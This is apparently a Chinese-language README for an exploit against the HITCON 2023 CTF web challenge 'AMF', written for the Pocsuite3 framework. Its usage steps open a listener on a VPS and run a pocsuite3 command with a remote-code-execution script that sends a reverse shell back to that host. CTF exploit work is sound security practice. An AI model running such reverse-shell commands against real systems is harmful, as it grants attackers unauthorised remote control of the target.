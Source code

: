 # HITCON-2023-AMF-ExP
HITCON 2023 AMF Exp

### 题目来源

+ https://github.com/hitconctf/ctf2023.hitcon.org/releases/download/v1.0.0/amf-39c56ff09aebf12f7ae39009b14481a96f03c2b5.zip

+ https://github.com/sajjadium/ctf-archives/tree/a7ddcef72a666bab10162fc4f9a356a49797592d/ctfs/HITCON/2023/Quals/web/AMF

### ExP

本 ExP 基于 [Pocsuite3](https://github.com/knownsec/pocsuite3) 编写

1.使用 VPS 开启监听

2.执行

```bash
pocsuite3 -u 目标地址 -r py3amf_rce.py --shell --lhost VPSIP --lport VPS端口
```

3.查看反弹结果
